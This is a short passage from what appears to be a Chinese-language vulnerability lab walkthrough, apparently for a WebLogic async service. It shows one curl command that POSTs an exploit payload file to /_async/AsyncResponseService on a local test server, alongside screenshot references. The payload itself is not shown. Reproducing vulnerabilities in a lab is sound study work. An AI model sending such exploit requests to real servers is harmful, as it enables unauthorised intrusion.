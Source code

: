 ![alt text](./image/1750682425672.png)
---

然后，我们发送漏洞利用请求

用 `curl` 发送请求：

```bash
curl -X POST http://127.0.0.1:7001/_async/AsyncResponseService \
  -H "Content-Type: text/xml" \
  -d @payload.xml
```

![alt text](./image/1750682458575.png)
---
